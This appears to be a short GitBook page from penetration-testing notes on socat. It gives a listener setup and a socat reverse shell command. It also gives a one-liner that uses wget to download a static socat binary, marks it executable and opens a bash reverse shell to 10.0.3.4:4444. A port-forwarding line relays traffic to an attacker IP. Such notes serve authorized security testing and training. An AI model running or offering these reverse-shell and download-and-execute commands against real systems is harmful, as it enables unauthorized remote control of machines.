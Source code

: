 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Socat

<pre class="language-bash"><code class="lang-bash"><strong># set up listener
</strong><strong>socat file:'tty',raw,echo=0 tcp-listen:4444
</strong></code></pre>

```bash
# reverse shell command
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<ip>:4444
```

Download and execute `socat`.

{% code overflow="wrap" %}
```bash
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```
{% endcode %}

## Port Forwarding

An alternative if SSH is not available and the socat binary can be transferred to the target. The `fork` option creates a new process for each connection received, thus, it is possible to handle multiple connection without closing.

```
socat TPC4-LISTEN:<port-on-target>,fork TCP4:<attacker-IP>:<attacker-port>
```

<figure><img src="../../../../.gitbook/assets/socat_port_forward.png" alt=""><figcaption></figcaption></figure>

## Resources

{% tabs %}
{% tab title="Project Page" %}
{% embed url="http://www.dest-unreach.org/socat/" %}
{% endtab %}

{% tab title="Binaries" %}
{% embed url="https://github.com/andrew-d/static-binaries" %}
{% endtab %}
{% endtabs %}

